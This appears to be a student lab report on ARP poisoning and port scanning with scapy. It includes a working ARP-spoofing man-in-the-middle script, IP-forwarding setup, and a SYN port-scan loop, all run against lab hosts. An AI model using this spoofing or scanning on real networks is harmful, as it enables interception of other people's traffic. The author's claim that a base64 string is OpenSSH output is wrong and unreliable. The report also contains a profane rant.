 # Secure Admin Tools - Lab IV

## ARP Poisoning and Portscan

Install scapy
```bash
python3 -m pip install scapy
```

Start scapy
```bash
sudo scapy
```

> It took me f..ing 6 hours to understand and getting things ready for using this fu..ing sh.t of a fu..ing tool mother fu..er, I am so pissed !!

To simplify all the usage: We have got different python Classes for different packet types. At first we are going to create a Ethernet packet followed by a ARP packet. To append two layers, we will use the operator / To show all available fields of a packet we can use the function list(PACKET) where PACKET can be Ether or ARP or anything else available. At first we will use the command `arp -a` to list the local arp table of our server

```console
nichil@secat-02:~$ arp -a
? (192.168.130.1) at 00:50:56:c0:00:08 [ether] on ens33
? (192.168.130.128) at 00:0c:29:3a:31:c6 [ether] on ens33
_gateway (192.168.130.2) at 00:50:56:e3:fb:3c [ether] on ens33
```

> enable packet forwarding so the spoofed packets can be forwarded accordingly `echo 1 > /proc/sys/net/ipv4/ip_forward`

Let's build up a broadcast ARP request

```console
>>> arpbc=Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op="who-has", pdst="192.168.130.2")
>>> arpbc.show()
###[ Ethernet ]###
  dst= ff:ff:ff:ff:ff:ff
  src= 00:0c:29:3a:31:c6
  type= 0x806
###[ ARP ]###
     hwtype= 0x1
     ptype= 0x800
     hwlen= None
     plen= None
     op= who-has
     hwsrc= 00:0c:29:3a:31:c6
     psrc= 192.168.130.128
     hwdst= None
     pdst= 192.168.130.2

>>> response=srp(arpbc, timeout=2)
Begin emission:
...Finished sending 1 packets.
*
Received 4 packets, got 1 answers, remaining 0 packets
>>> response
(<Results: TCP:0 UDP:0 ICMP:0 Other:1>,
 <Unanswered: TCP:0 UDP:0 ICMP:0 Other:0>)
>>> response[0]
<Results: TCP:0 UDP:0 ICMP:0 Other:1>
>>> response[0][0]
(<Ether  dst=ff:ff:ff:ff:ff:ff type=0x806 |<ARP  op=who-has pdst=192.168.130.2 |>>,
 <Ether  dst=00:0c:29:3a:31:c6 src=00:50:56:e3:fb:3c type=0x806 |<ARP  hwtype=0x1 ptype=0x800 hwlen=6 plen=4 op=is-at hwsrc=00:50:56:e3:fb:3c psrc=192.168.130.2 hwdst=00:0c:29:3a:31:c6 pdst=192.168.130.128 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>)
>>> response[0][0][0]
<Ether  dst=ff:ff:ff:ff:ff:ff type=0x806 |<ARP  op=who-has pdst=192.168.130.2 |>>
>>> response[0][0][1]
<Ether  dst=00:0c:29:3a:31:c6 src=00:50:56:e3:fb:3c type=0x806 |<ARP  hwtype=0x1 ptype=0x800 hwlen=6 plen=4 op=is-at hwsrc=00:50:56:e3:fb:3c psrc=192.168.130.2 hwdst=00:0c:29:3a:31:c6 pdst=192.168.130.128 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>
>>> response[0][0][1].hwsrc
'00:50:56:e3:fb:3c'
```

So we can shorten this down to following code lines for both gateway and target server

```
# gateway
arpbc=Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op="who-has", pdst="192.168.130.2")
arpbcrsp=srp(arpbc)
arpbcrsp[0][0][1].hwsrc

```

Knowing this information we can write a short script to spoof ARP continiously

```python
from scapy.config import conf
from scapy.layers.l2 import ARP, Ether
from scapy.sendrecv import srp, sendp, send
from time import sleep

__author__ = "nichil"
__date__ = "12.04.2020"
__github__ = "https://github.com/starvis"


def main():
    conf.verb = False
    spoof_ip = "192.168.130.2"
    spoof_mac = get_mac(spoof_ip)
    victim_ip = "192.168.130.129"
    victim_mac = get_mac(victim_ip)

    try:
        print("Sending spoofed arp")
        while True:
            spoof(victim_ip=victim_ip, spoof_ip=spoof_ip, sppof_mac=spoof_mac)
            spoof(victim_ip=spoof_ip, spoof_ip=victim_ip, sppof_mac=victim_mac)
            sleep(1)

    except KeyboardInterrupt:
        print("Healing victim")
        heal_victim(victim_ip, victim_mac, spoof_ip, spoof_mac)
        heal_victim(spoof_ip, spoof_mac, victim_ip, victim_mac)


def heal_victim(tip, tmac, sip, smac):
    packet = ARP(op="is-at", pdst=tip, hwdst=tmac, psrc=sip, hwsrc=smac)
    send(packet)


def spoof(victim_ip, spoof_ip, sppof_mac):
    faulty_arp_reply = ARP(op="is-at", psrc=spoof_ip, pdst=victim_ip, hwdst=sppof_mac)
    send(faulty_arp_reply)


def get_mac(ip):
    arp_broadcast = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(op="who-has", pdst=ip)
    arp_broadcast_response = srp(arp_broadcast)
    return arp_broadcast_response[0][0][1].hwsrc


if __name__ == "__main__":
    main()

```

In order to test the spoofing I am going to use tcpdump and nc. I will listen on Port 6969 on theMachine and open a connection from secat-02 to theMachine on Port 6969. As the Mac address on the ARP table of secat-02 for the gateway got swapped with mine, I will receive the messages sent over port 6969 on secat-01 which is the MITM in this scenario. The packets will be forwarded because I have enabled ipv4 forwarding. The packets are captured with tcpdump using the -X arg to see ASCII encoded data. 

![arp_spoof_proof.PNG](arp_spoof_proof.PNG)


## Portscan

Login to its.fh-campuswien.ac.at is the one which was set in lab3

The code in the instructions does not work for me so I wrote my own
```
sudo /etc/scapy/run_scapy << EOF
conf.verb = False
ip = '172.16.51.142'
ports = []
for i in range(1,10000):
    packages = IP(dst=ip, ttl=43) / TCP(dport=i, flags='S')
    results, unanswered = sr(packages, timeout=10, iface='ens18')
    for result in results:
        if result[1][1].flags == 'SA':
            ports.append(result[1][1].sport)

print(ports)
    

EOF
```
The resulting Ports were [22, 7538]  
Webserver is listening on Port 7538  
Webservers output of a GET Request is Q29uZ3JhdHVyYXRpb24sIGEgd2lubmVyIGlzIHlvdSE=  
This seems to be an output from openssh, it is not an hash-digest. We used it in the first lab.  